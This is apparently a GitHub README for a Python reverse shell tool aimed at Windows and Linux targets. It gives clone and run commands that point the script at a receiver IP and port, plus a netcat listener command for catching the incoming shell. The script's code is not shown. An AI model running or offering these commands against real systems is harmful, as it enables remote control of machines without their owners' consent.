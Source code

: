 # Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- Python 3.x
- `psutil` library
- A target machine to run the reverse shell on


### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/
2. Change into the project directory:
   ```bash
   cd strike

## Usage

To create a reverse shell, you can use this script as follows:

1. For Windows:

   ```bash
   python reverse_shell.py -ip RECEIVER_IP -port PORT_NUMBER
2. For Linux:

   ```bash
   python reverse_shell.py -ip RECEIVER_IP -port PORT_NUMBER

# How to Run the Code

To run the code, follow the usage instructions provided in the "Usage" section above.

- Make sure you have the required dependencies installed.
- Replace RECEIVER_IP with the IP address of the machine you want to receive shell.
- Replace PORT_NUMBER with the port number to connect to on the machine you wan to receive shell.
- The script will create a reverse shell connection to the specified IP and port.

## IMPORTANT

You want to start listening to the specific port using 'Netcat' in  another device inorder to receive the reverse shell from the target
- listen through Netcat
  ```bash
  nc -nvlp port

